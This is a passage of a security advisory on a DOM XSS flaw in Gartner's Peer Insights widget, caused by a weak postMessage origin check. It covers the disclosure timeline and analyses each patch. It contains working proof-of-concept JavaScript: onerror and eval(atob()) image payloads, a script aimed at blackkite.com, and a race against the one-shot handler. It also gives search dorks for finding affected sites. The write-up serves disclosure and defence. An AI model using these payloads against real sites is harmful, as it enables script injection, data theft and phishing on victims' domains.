

postMessage DOM XSS vulnerability in Gartner Peer Insights widget
This document discusses the Gartner Peer Insights Widget and a vulnerability in it that made many websites vulnerable to DOM XSS via Window.postMessage().
The bug can be shown to have affected Black Kite, Gradle, LogRhythm, ReversingLabs, SentinelOne, Synopsys, Tata Communications, Veeam, Vodafone and more.
The Story
This is a story about the analysis, exploitation and reporting of a third-party DOM XSS vulnerability.
- Setting the Scene
- Introduction to the Gartner Peer Insights widget
-
Details of a DOM XSS Vulnerability in the Gartner Peer Insights widget, which could be exploited from any website whose domain name contained the string "gartner.com" (e.g. https://gartner.com.attacker.com)
- Description and analysis of the issue
- Proof of Concept
- Gallery of some affected sites
- Case study
- My suggested fix
- Analysis of Gartner's tactical fix (19 December 2022) which ensured that only *.gartner.com, or an XSS therein, could exploit the issue
-
Analysis of Gartner's attempted strategic fix (12 January 2023) which further locked down the origins that can send messages, made the message handler one-shot, and implemented sanitisation to protect against the DOM XSS
- Bypass of the one-shot handler using race technique
- Analysis of the improved postMessage origin restrictions
- Analysis and bypass of the
_validateNumber()sanitisation - Analysis and bypass of the
_validateString()sanitisation
- Analysis of Gartner's final fixes (26 January 2023 and 2 Feb 2023) which seems to successfully sanitise away the XSS issue
- Closing thoughts
Chapter One - Setting the Scene
Data flows
This section describes the key data flows that are discussed in this document.
Importantly, during the course of my analysis and assessment, no malicious traffic was sent to gartner.com servers or to the servers of companies that consume the Gartner Peer Insights Widget.
The ordinary (happy path) data flow of the Gartner Peer Insights Widget is as follows:

That is to say, when a webpage is a consumer of the Gartner Peer Insights Widget, it sources widget.js from gartner.com. The widget code then creates an event listener for postMessage messages, creates a div for the widget to be displayed in, and creates an invisible iframe pointed at gartner.com. The iframe requests a specific page from gartner.com, which sends a postMessage message to the parent page, which in turn uses the message data to populate the widget div.
Switching to the attack discussed in this document, the data flow is as follows:
The attacking website opens the victim website in a popup window, and then sends a postMessage message to the opened window. This causes malicious active content to be rendered to the widget div, achieving XSS.
The attack does not involve sending malicious traffic to victim.com or gartner.com. It executes client-side within the victim user's browser windows.
Disclosure Timeline
-
May 2018 - First listing in archive.org of https://www.gartner.com/reviews/public/Widget/js/widget.js
- Though the code is slightly different from the code I analysed in 2022, it appears to have been vulnerable to the DOM XSS issue from its inception
-
4 November 2022 - I provided an initial draft of this document to Gartner and set a planned publication date of 2 February 2023
- The document discussed the flaw in the restriction of origins which can send postMessage messages to the widget event handler, and demonstrated that a website that can do so (i.e. any website where the domain name contains the string "gartner.com") can trigger DOM XSS in any consumer of the Gartner Peer Insights widget
-
It suggested that Gartner should:
- Fix the faulty logic which controls the sites that can send a postMessage message to the widget event handler, properly restricting the capability to those websites which need to do so; and
- Consider refactoring the logic of the widget so that even a blessed origin can only provide data to the widget, and cannot trigger a DOM XSS. This would protect against the case in which an XSS in a blessed origin (such as www.gartner.com) is used in a vulnerability chain, ultimately triggering XSS in the consumer of the widget.
- 8 November 2022 - Gartner acknowledged the submission and asked if I would like to submit the issue to their private bug bounty program
- 8 November 2022 - I agreed to be invited to the program and asked if submitting the issue there would preclude me from disclosing the issue publicly
-
19 December 2022 - Gartner published a tactical fix which they said is not intended to be a final fix, and gave an update regarding their private bug bounty program
- The fix prevented exploitation from any website on the Internet, only allowing exploitation of the DOM XSS from JavaScript running in the *.gartner.com origin
- The fix did not change the way in which widget data was unsafely rendered, meaning the vulnerability could still be exploited by chaining through an XSS in *.gartner.com
-
Gartner said they "connected with [their] Customer Success Manager at HackerOne back in November" and they "understand that [their] program should be defaulted to a Singular Disclosure setting (https://docs.hackerone.com/programs/disclosure.html), where [a submitter] can request approval for publishing the contents of the report"
- This seems to me as though it would make the publication visible only to other participants of the private program
- 19 December 2022 - I clarified that I don't want to publish my work on the HackerOne platform, but as a public advisory
- 6 January 2023 - Gartner said they are internally discussing my "publishing ask"
-
14 January 2023 - Gartner said that they have published a "complete repair, provided there is no outstanding vulnerability that can still be demonstrated"
- The fix further restricts the origins which can send postMessage messages, limiting it to four explicit sites within *.gartner.com
- The fix causes the postMessage handler to only accept one message, after which it is deregistered
- The fix also adds filtering to the content that is received from a postMessage message, with the intention of eliminating XSS payloads before they are rendered within the widget
- 14 January 2023 - I provided Gartner with several bypasses for the patch. This analysis is described below. I also reminded them that I'm still waiting to hear if they can provide a reward for the work while still allowing me to publicly disclose the issue.
- 21 January 2023 - Gartner confirmed that they would not offer a bug bounty reward if I publicly disclose the issue. This is the last email I'd receive from Gartner.
- 21 January 2023 - I declined the offer of a bug bounty reward.
- 26 January 2023, 2 February 2023 - Gartner published final patches which improve the sanitisation.
- 3 February 2023 - Public disclosure
Private Bug Bounty Program
After receiving my report and disclosure plan, Gartner asked if I wanted to submit the issue to their private bug bounty program. I asked if doing so would preclude me from being able to publicly disclose the issue. After quite some time, and after I reviewed their patch and gave them detailed notes on how it could be bypassed, they confirmed that "as an organization, we do not award bounties for findings publicly disclosed outside the HackerOne program."
When I initially submitted my report and set a disclosure timeline, I didn't ask for a reward and I wasn't expecting one (but being offered one would have been a nice surprise!). Once I've already expressed an intention to publicly disclose an issue, I don't feel comfortable taking money to cancel it - I expand on this in the "Closing Thoughts" section below.
If any of Allgress, Apps4.pro, Black Kite, Board International, CloverDX, Deep Instinct, DTEX, Firesec, Gradle, Ironscales, Logpoint, LogRhythm, Matrix42, Openly, Retarus, ReversingLabs, SentinelOne, Service Express, Siemens MindSphere, Synopsys, Tata Communications, Trinamix, Veeam, Vodafone or Wrike are reading this and would like to retroactively recognise me for the work, please get in touch :) my DMs are open on Twitter and Mastodon
Chapter Two - What is the Gartner Peer Insights Widget?
The Gartner Peer Insights Widget is a tile of information that vendors can place on their website. It shows the average rating given to them by their customers, it can show customer reviews, and it prompts the viewer to leave their own review of the vendor.
Examples of the Widget can be seen at Gartner's Peer Insights Widget webpage:

The Widget is installed on a website by:
- Doing
<script src="https://www.gartner.com/reviews/public/Widget/js/widget.js">; then - Calling the
GartnerPI_Widget()function to instantiate the widget
Google Dorks
The following search terms might be useful for finding websites that incorporate the Gartner Peer Insights Widget.
- "on gartner peer insights" "write a review" -site:gartner.com
- "submit a review" "as of" "reviewed" "read more"
- "ratings" "submit a review" "read more" "gartner"
Chapter Three - Gartner Peer Insights Widget DOM XSS Vulnerability (2018 - 19 December 2022)
The presence of the Gartner Peer Insights widget on a vendor's website made it vulnerable to DOM-based Cross Site Scripting (XSS).
Recall the ordinary data flow for the widget:
In step 7, where the hidden iframe pointed at gartner.com does a postMessage to the website's message handler, the handler attempted to ensure that the message came from a gartner.com website. It did this by checking to see that the string "gartner.com" appeared anywhere in the origin of the sending website. This could by bypassed by hosting an attack from a website such as https://gartner.com.attacker.com.
Upon receiving a postMessage message that met the "gartner.com" substring criteria, the widget code would take values from the message and would use them to construct HTML. It would then inject the HTML into the widget's content div using the innerHTML property.
innerHTML is a DOM XSS "sink". A <script> tag injected into a document using innerHTML will not fire, but other XSS triggers such as <img src=x onerror=alert(1)> will. It's generally unsafe to set innerHTML using attacker-contolled data, and doing so often leads to DOM XSS.
If a victim user navigated to a malicious website, then the malicious website could have opened the vendor's website in a popup window and sent it a crafted message using window.postMessage(). This crafted message could have injected active content, executing arbitrary JavaScript in the context of the website. This could have allowed the malicious website to violate the confidentiality and integrity of user data held in the context of the victim site, and allowed it to display arbitrary and harmful content such as a phishing form.
Gartner issued patches to resolve the vulnerability. The patches are discussed below.
Analysis of the vulnerability
Once the Peer Insights Widget code (Archive.org copy from September 2022) was sourced on a website, and a Widget had been instantiated, a message handler would have been registered thusly:
l = function () {
window.addEventListener('message', o, !1)
},
Upon receiving a cross-site postMessage, the handler would execute the o() function as follows:
o = function (e) {
e.origin.indexOf('gartner.com') > - 1 && y(e.data)
},
This function is checking that the string "gartner.com" appears anywhere in the origin of the website that sent the cross-site message, and if so it proceeds to handle the message data using the y() function.
An origin is the combination of the protocol, domain name and port of the sending website (e.g. https://www.example.com:8443)
Note that the o() function is not checking that the domain name of the website is exactly "gartner.com", or that it ends with "gartner.com". If the string "gartner.com" appears anywhere in the sending website's origin, processing of the message will continue. Thus, a website such as https://gartner.com.attacker.com could have triggered the logic being discussed.
y() was given by:
y = function (e) {
(e = 'object' != typeof e ? JSON.parse(e) : null) && e.widgetId && e.widgetId === t.widget_id && (e && e.error ? t.dataContainer.appendChild(f()) : null !== e && t.dataContainer && ('line' === t.size ? L(e) : 'large' === t.size ? (A(e), e.vendor && v(e.vendor.url, e.vendor.seoName), e.reviews && e.reviews.length && (self.animateId = setTimeout(u, 10000))) : _(e)))
},This code:
- Ensures that the message data (
e) is not an object, and then JSON decodes it. - Ensures that
ehas a "widgetId" attribute and that the widgetId matches the widget_id attribute oft(which seems to be the Widget that the vendor has instantiated on their website) - If the message contains an "error" value, display some error condition in
t's dataContainer - Ensures that
thas a "dataContainer" attribute -
If:
t's "size" is "line" then doL(e); else- If
t's "size" is "large" then doA(e)and ifehas a "vendor" attribute then dov(e.vendor.url, e.vendor.seoName)and ifehas a "reviews" attribute and the "reviews" attribute has a truthy "length" attribute then dou()in 10 seconds; else - Do
_(e)
Each of the three branches in step 5 ran one of L(), A() or _(). These functions (and their relevant dependencies) were implemented as follows:
L = function (e) {
var i = [
],
n = e.rating,
r = e.reviewCount;
i.push('<div class="gartner-pi-card">'),
i.push('<div class="gartner-pi-stats">'),
i.push('<div class="gartner-pi-overall-rating">'),
i.push('<span class="gartner-pi-score">' + n + '</span>'),
i.push('<div class="gartner-pi-translate">'),
i.push(k(n)),
i.push('<div class="gartner-pi-reviews-link">'),
i.push('<span>' + r + ' Rating' + (r > 1 ? 's' : '') + '</span>'),
i.push(' on Gartner Peer Insights</div>'),
t.sourcingLink && (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">(Submit a review)</a>'), i.push('</div>')),
i.push('</div>'),
i.push('</div>'),
i.push('</div>'),
i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + '">As of ' + w() + '</div>'),
i.push('</div>'),
t.dataContainer.innerHTML = i.join(''),
v(e.url, e.seoName)
}
A = function (e) {
var i = e.reviews,
n = e.vendor,
r = C(n);
r.push('<div class="gartner-pi-reviews">'),
r.push('<ul>');
for (var s = 0; s < i.length; s++) {
var a = i[s];
r.push('<li>'),
r.push('<div class="gartner-pi-rating-container">'),
r.push(k(a.rating)),
r.push('<span class="gartner-pi-datestamp">'),
r.push('Reviewed ' + m(a.date)),
r.push('</span>'),
r.push('</div>'),
r.push('<p class="gartner-pi-quote">"' + a.headline + '..." '),
r.push('<span>(read more)</span></p>'),
r.push('</li>')
}
r.push('</ul>'),
r.push('</div>'),
t.dataContainer.innerHTML = r.join('')
}
_ = function (e) {
var i = C(e);
t.dataContainer.innerHTML = i.join(''),
v(e.url, e.seoName)
}
C = function (e) {
var i = [
],
n = e.rating,
r = e.score,
s = e.reviewCount,
a = e.name,
d = e.market;
return i.push('<div class="gartner-pi-gradient"></div>'),
i.push('<div class="gartner-pi-card">'),
i.push('<div class="gartner-pi-logo"></div>'),
i.push('<div class="gartner-pi-header">'),
i.push('<h1 class="gartner-pi-h1">' + a + '</h1>'),
i.push('<h2 class="gartner-pi-h2">' + d + '</h2>'),
i.push('</div>'),
i.push('<div class="gartner-pi-stats">'),
i.push('<div class="gartner-pi-alignLeft">'),
i.push('<div class="gartner-pi-overall-rating">'),
i.push('<span class="gartner-pi-score">' + n + '</span>'),
i.push(k(n)),
i.push('</div>'),
i.push('<div class="gartner-pi-reviews-link">'),
i.push('<span>' + s + ' Rating' + (s > 1 ? 's' : '') + ' '),
i.push('<span class="gartner-pi-chevron"></span>'),
i.push('</span>'),
i.push('</div>'),
i.push('</div>'),
i.push('<div class="gartner-pi-alignRight">'),
t.sourcingLink ? (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">Submit a review</a>'), i.push('<span class="gartner-pi-chevron"></span>'), i.push('</div>')) : (i.push('<div>'), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + r + '%</span>'), i.push('<span class="gartner-pi-thumbs-up"></span>'), i.push('<div class="gartner-pi-reviews-link">'), i.push('<span>Recommend</span>'), i.push('</div>'), i.push('</div>'), i.push('</div>')),
i.push('</div>'),
i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + '">As of ' + w() + '</div>'),
i.push('</div>'),
i.push('</div>'),
i
}
These three functions essentially constructed a wad of HTML using various values taken from e (i.e. the message that was posted cross-site) and then set t.dataContainer.innerHTML to the constructed HTML. This gave rise to the DOM-based XSS vulnerability. If particular values of e contained active HTML content, setting the page's Widget's dataContainer's innerHTML to a value constructed based on these values would have allowed the external website to execute JavaScript in the context of the vendor's website.
Among other values, the attributes rating and vendor.rating were always used in the construction of the HTML wad. If an e had contained both of them and placed malicious HTML content in each of them, the malicious HTML content would have make it onto the vendor's webpage regardless of whether their t's size attribute is "line", "large" or other.
In addition to these attributes, a successful attack should have included an empty array attribute named "reviews" to satisfy a loop that the large widget tried to do.
Proof of Concept
The following form implements the above DOM XSS attack against a non-exhaustive handful of websites that include and instantiate the Gartner Peer Insights Widget. Note that the patches by Gartner (discussed below) have resolved the issue for most of the sites, and so sites that are no longer affected are disabled in the drop-down.
Pick a target from the drop-down list (or set a custom URL and Widget ID using the text fields), set a JavaScript payload, and click Submit. The target website will open in a popup window and will have the JavaScript payload executed within.
The "Demo" target exploits https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo1.html which is an intentionally vulnerable webpage. It executes a vendored copy of the code which was taken prior to 19 December 2022 (i.e. before Gartner patched the issue) allowing you to explore and experiment with the vulnerability.
If you'd like to see how the Proof of Concept is implemented, commit a crime using Right Click → View Source.
This POC will only work if you are viewing this page from a website that contains "gartner.com" somewhere in its origin.
Note: Payload will repeatedly fire to account for slow-loading pages. You may need to scroll the page for the widget to be lazily loaded before the payload will execute.
Gallery
Following are screenshots of some affected sites, taken before the issue was patched by Gartner.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
Case Study - Black Kite
Black Kite is a Security Ratings Service (SRS) vendor. Customers of the Black Kite service use it to perform vulnerability scans of their current or prospective vendors/suppliers.
The following Proof of Concept triggered the vulnerability on Black Kite's website until 19 December 2022.
(function() {
if (location.origin.indexOf("gartner.com") == -1) {alert("Origin does not contain gartner.com"); return}
let w = window.open("https://blackkite.com");
setTimeout(function() {
w.postMessage(JSON.stringify({
"widgetId": "YzdhOTVlZDEtZGVjZS00NDBhLTgwODUtMWJlNjM1ZGE0NzVj",
"reviews": [],
"vendor": {
"rating": "<img src='//x' onerror='alert(document.domain)'>"
}
}), '*');
}, 5000)
})();
Recommended Fix
I originally recommended that Gartner's Peer Insights Widget code should not simply check that "gartner.com" appears anywhere within the message sender's origin. It should check that the origin's hostname part ends with "gartner.com", or preferably nail it down to the exact origin that is expected to be sending messages to the Widget.
Update: On reflection, the above suggestion is misleading. I should have said that the handler should check that the origin's hostname part is exactly "gartner.com" or ends with ".gartner.com"
I also said that doing only this will leave websites vulnerable to any XSS on a *.gartner.com website. That is to say, a *.gartner.com XSS vulnerability could be used to do a cross-site postMessage to vendor websites with malicious e attributes that achieve DOM-based XSS. Since the postMessage in such a case would be coming from a *.gartner.com site, it might be considered trustworthy by the message handler (see above suggestion). I suggested that a more robust Widget design could be to dynamically and safely construct DOM elements and stitch them together, rather than concatenating postMessage values into a wad of HTML and slamming it into the Widget's innerHTML.
Chapter Four - Tactical Fix (19 December 2022)
On 19 December 2022, Gartner updated widget.js with a tactical fix for the issue (Archive.org copy from 1 January 2023)
After beautifying the patched version and normalising its minified labels against the original code, the only difference is as follows:
diff --git a/widget1.js b/widget2.js
index a439d3c..3eaf232 100644
--- a/widget1.js
+++ b/widget2.js
@@ -35,8 +35,18 @@ var GartnerPI_Widget = function(e) {
e = s.scrollTop, e === n ? (clearInterval(a), t.list.appendChild(i), setTimeout(u, 1e4)) : e > n ? s.scrollTop -= 20 : s.scrollTop += e + r > n ? n - e : r
}, 55)
},
+ get_hostname_suffix = function(e) {
+ try {
+ var t = new URL(e);
+ const i = t.origin.split("."),
+ n = i.length - 2;
+ return 2 === i.length ? t.hostname : i.slice(n).join(".")
+ } catch (e) {
+ return "INVALID_URL"
+ }
+ },
o = function(e) {
- e.origin.indexOf("gartner.com") > -1 && y(e.data)
+ "gartner.com" == get_hostname_suffix(e.origin) && y(e.data)
},
l = function() {
window.addEventListener("message", o, !1)This change partially implements the first of the two suggestions I made to Gartner.
It adds a function I have called get_hostname_suffix() which, roughly speaking, returns the suffix of the hostname of an origin. For example, giving it "www.gartner.com" would return "gartner.com" while "gartner.com.attacker.com" would give "attacker.com".
Gartner used this function to ensure that the origin of the sender of the message has a hostname within *.gartner.com.
As far as I can tell, this successfully prevents the widget from handling messages from any website other than *.gartner.com. However, it does not change the logic of the construction of the widget's contents, meaning an XSS on *.gartner.com could be used to send malicious data to a consuming website's widget message handler, which could once again achieve DOM XSS.
Proof of Concept
https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo2.html is an intentionally vulnerable webpage. It executes a vendored copy of the Gartner Peer Insights widget code which was taken between 19 December 2022 and 12 January 2023. That is to say, it's a snapshot of this tactical fix.
Browsing to any website under *.gartner.com (e.g. https://jobs.gartner.com/) and executing the following chunk of JavaScript in the F12 Developer Console will open the vulnerable page in an invisible iframe and will then execute a JavaSript payload in its origin.
(function() {
let my_hostname = (new URL(location.origin)).hostname;
if (!(my_hostname === "gartner.com" || my_hostname.endsWith(".gartner.com"))) {alert("Origin is not within gartner.com"); return;}
let ifrm = document.createElement("iframe");
ifrm.setAttribute("src", "https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo2.html");
ifrm.style.display = "none";
document.body.appendChild(ifrm);
setTimeout(function(ifrm){
let payload = 'alert("XSS in " + location.origin);';
let badImg = `<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" onload="eval(atob('${btoa(payload)}'))">`;
ifrm.contentWindow.postMessage(JSON.stringify({
"widgetId": "OWMzM2QzN2EtNWUwYS0iRJRJFJFIRDgtNWQ4ZjgyNDIyMmY3",
"reviews": [],
"rating": badImg,
"vendor": {
"rating": badImg
}
}), '*');
}, 5000, ifrm);
})();Alternatively. the following will open the vulnerable page in a popup and will execute a JavaScript payload in its origin. Note that you will probably need to click to allow popups, as the popup is being created programmatically and not in response to a user interaction.
(function() {
let my_hostname = (new URL(location.origin)).hostname;
if (!(my_hostname === "gartner.com" || my_hostname.endsWith(".gartner.com"))) {alert("Origin is not within gartner.com"); return;}
let w = window.open("https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo2.html");
setTimeout(function(w){
let payload = 'alert("XSS in " + location.origin);';
let badImg = `<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" onload="eval(atob('${btoa(payload)}'))">`;
w.postMessage(JSON.stringify({
"widgetId": "OWMzM2QzN2EtNWUwYS0iRJRJFJFIRDgtNWQ4ZjgyNDIyMmY3",
"reviews": [],
"rating": badImg,
"vendor": {
"rating": badImg
}
}), '*');
}, 5000, w);
})()Chapter Five - Strategic Fix (12 January 2023)
On 12 January 2023, Gartner made an update to widget.js (Archive.org copy as of 14 January 2023). On 14 January they said "This should count as a complete repair, provided there is no outstanding vulnerability that can still be demonstrated."
Roughly speaking, this change introduced three separate security controls:
-
The postMessage event handler was registered with the
onceoption being true. This caused the event handler to be automatically deregistered after it is triggered, making it a one-shot handler. - The allowlist of origin hostnames that can trigger the event handler was further restricted to just four names under gartner.com
- Sanitisation was applied to message values before they were used in the construction of innerHTML data
These controls could be bypassed, and given an XSS in one of the four blessed hostnames (see control #2), XSS could still be achieved in a consumer of the Gartner Peer Insights widget.
Analysis - One Shot Handler
The first of the three changes was as follows:
% git diff --no-index hunk1b.js hunk1a.js
diff --git a/hunk1b.js b/hunk1a.js
index f65cd39..784be04 100644
--- a/hunk1b.js
+++ b/hunk1a.js
@@ -1,3 +1,3 @@
l = function() {
- window.addEventListener("message", o, !1)
+ window.addEventListener("message", o, {once: !0})
},This change had the effect of registering the postMessage event handler as a one-shot handler. Once the window received a message, the handler would be deregistered, and future messages would not be handled.
If the first postMessage message received by the window was a genuine message from Gartner, then the widget would be populated with genuine data, and future (potentially malicious) messages would not be processed.
However, if a malicious message arrived before the genuine message from Gartner, then the malicious message would be handled and the message from Gartner would hit the floor.
A small tweak to our POC code allowed us to open the victim website in a popup window and race the delivery of a postMessage message. In my testing, the approach below was 100% reliable in Firefox, and with a more aggressive setTimeout delay it was about 50/50 on Chrome. A better race strategy might be more reliable on Chrome.
function ding(w, m, ttl) {
w.postMessage(m, "*");
// Try again in 100 milliseconds if ttl > 0
// setTimeout means we don't block the JS engine
ttl > 0 && setTimeout(ding, 100, w, m, ttl - 1);
}
(function(){
let u = "https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo3.html";
let w = window.open(u);
let m = "evil message"
ding(w, m, 1000);})()
https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo3.html is an intentionally vulnerable webpage. It executes a vendored copy of the Gartner Peer Insights widget code which was taken after 12 January 2023. That is to say, it's a snapshot of the attempted strategic fix.
By opening the intentionally vulnerable page, setting a breakpoint within the postMessage handler function l(), and then running the above in Firefox, the breakpoint will be hit. It will show the received message as being "evil message", demonstrating a successful race.
Setting devtools.popups.debug to True may help with getting the breakpoint to hit.
Analysis - postMessage Origin Restriction
The second of the three changes was as follows:
diff --git a/hunk2b.js b/hunk2a.js
index e2c8128..a63f951 100644
--- a/hunk2b.js
+++ b/hunk2a.js
@@ -1,13 +1,12 @@
-get_hostname_suffix = function(e) {
- try {
- var t = new URL(e);
- const i = t.origin.split("."),
- n = i.length - 2;
- return 2 === i.length ? t.hostname : i.slice(n).join(".")
- } catch (e) {
- return "INVALID_URL"
- }
-},
+check_hostname = function(e) {
+ var t = new Set(["gcom.pdodev.aws.gartner.com", "gcom.pdoqa.aws.gartner.com", "gartner.com", "www.gartner.com"]);
+ try {
+ var i = new URL(e).hostname;
+ return t.has(i) ? "APPROVED_URL" : "INVALID_URL"
+ } catch (e) {
+ return "INVALID_URL"
+ }
+},
o = function(e) {
- "gartner.com" == get_hostname_suffix(e.origin) && y(e.data)
+ "APPROVED_URL" == check_hostname(e.origin) && y(e.data)
},This change further restricted the origin hostnames that could send messages. The December 2022 patch changed it from *gartner.com* to *.gartner.com, and this change cranked it down to four specific gartner.com hostnames.
Taking this change in isolation, if there was an XSS vulnerability on any of these hostnames, then the DOM XSS in the widget could still be exploited.
Analysis - Filtering of postMessage message values
The final change was as follows:
diff --git a/hunk3b.js b/hunk3a.js
index fe0ecee..2044e32 100644
--- a/hunk3b.js
+++ b/hunk3a.js
@@ -1,30 +1,46 @@
+_validateString = function(e) {
+ if (!("string" == typeof e || e instanceof String)) return "";
+ var t = (new DOMParser).parseFromString(e, "text/html");
+ return Array.from(t.body.childNodes).some(function(e) {
+ return 1 === e.nodeType
+ }) ? "" : e
+},
+_validateNumber = function(e) {
+ return Number.isNaN(e) ? 0 : e
+},
_ = function(e) {
var i = C(e);
- t.dataContainer.innerHTML = i.join(""), v(e.url, e.seoName)
+ t.dataContainer.innerHTML = i.join("");
+ var n = _validateString(e.url),
+ r = _validateString(e.seoName);
+ v(n, r)
},
A = function(e) {
var i = e.reviews,
n = e.vendor,
r = C(n);
r.push('<div class="gartner-pi-reviews">'), r.push("<ul>");
- for (var s = 0; s < i.length; s++) {
- var a = i[s];
- r.push("<li>"), r.push('<div class="gartner-pi-rating-container">'), r.push(k(a.rating)), r.push('<span class="gartner-pi-datestamp">'), r.push("Reviewed " + m(a.date)), r.push("</span>"), r.push("</div>"), r.push('<p class="gartner-pi-quote">"' + a.headline + '..." '), r.push("<span>(read more)</span></p>"), r.push("</li>")
+ for (var a = 0; a < i.length; a++) {
+ var s = i[a],
+ d = _validateString(s.headline);
+ r.push("<li>"), r.push('<div class="gartner-pi-rating-container">'), r.push(k(_validateNumber(s.rating))), r.push('<span class="gartner-pi-datestamp">'), r.push("Reviewed " + m(s.date)), r.push("</span>"), r.push("</div>"), r.push('<p class="gartner-pi-quote">"' + d + '..." '), r.push("<span>(read more)</span></p>"), r.push("</li>")
}
r.push("</ul>"), r.push("</div>"), t.dataContainer.innerHTML = r.join("")
},
C = function(e) {
var i = [],
- n = e.rating,
- r = e.score,
- s = e.reviewCount,
- a = e.name,
- d = e.market;
- return i.push('<div class="gartner-pi-gradient"></div>'), i.push('<div class="gartner-pi-card">'), i.push('<div class="gartner-pi-logo"></div>'), i.push('<div class="gartner-pi-header">'), i.push('<h1 class="gartner-pi-h1">' + a + "</h1>"), i.push('<h2 class="gartner-pi-h2">' + d + "</h2>"), i.push("</div>"), i.push('<div class="gartner-pi-stats">'), i.push('<div class="gartner-pi-alignLeft">'), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + n + "</span>"), i.push(k(n)), i.push("</div>"), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>" + s + " Rating" + (s > 1 ? "s" : "") + " "), i.push('<span class="gartner-pi-chevron"></span>'), i.push("</span>"), i.push("</div>"), i.push("</div>"), i.push('<div class="gartner-pi-alignRight">'), t.sourcingLink ? (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">Submit a review</a>'), i.push('<span class="gartner-pi-chevron"></span>'), i.push("</div>")) : (i.push("<div>"), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + r + "%</span>"), i.push('<span class="gartner-pi-thumbs-up"></span>'), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>Recommend</span>"), i.push("</div>"), i.push("</div>"), i.push("</div>")), i.push("</div>"), i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + '">As of ' + w() + "</div>"), i.push("</div>"), i.push("</div>"), i
+ n = _validateNumber(e.rating),
+ r = _validateNumber(e.score),
+ a = _validateNumber(e.reviewCount),
+ s = _validateString(e.name),
+ d = _validateString(e.market);
+ return i.push('<div class="gartner-pi-gradient"></div>'), i.push('<div class="gartner-pi-card">'), i.push('<div class="gartner-pi-logo"></div>'), i.push('<div class="gartner-pi-header">'), i.push('<h1 class="gartner-pi-h1">' + s + "</h1>"), i.push('<h2 class="gartner-pi-h2">' + d + "</h2>"), i.push("</div>"), i.push('<div class="gartner-pi-stats">'), i.push('<div class="gartner-pi-alignLeft">'), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + n + "</span>"), i.push(k(n)), i.push("</div>"), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>" + a + " Rating" + (a > 1 ? "s" : "") + " "), i.push('<span class="gartner-pi-chevron"></span>'), i.push("</span>"), i.push("</div>"), i.push("</div>"), i.push('<div class="gartner-pi-alignRight">'), t.sourcingLink ? (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">Submit a review</a>'), i.push('<span class="gartner-pi-chevron"></span>'), i.push("</div>")) : (i.push("<div>"), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + r + "%</span>"), i.push('<span class="gartner-pi-thumbs-up"></span>'), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>Recommend</span>"), i.push("</div>"), i.push("</div>"), i.push("</div>")), i.push("</div>"), i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + 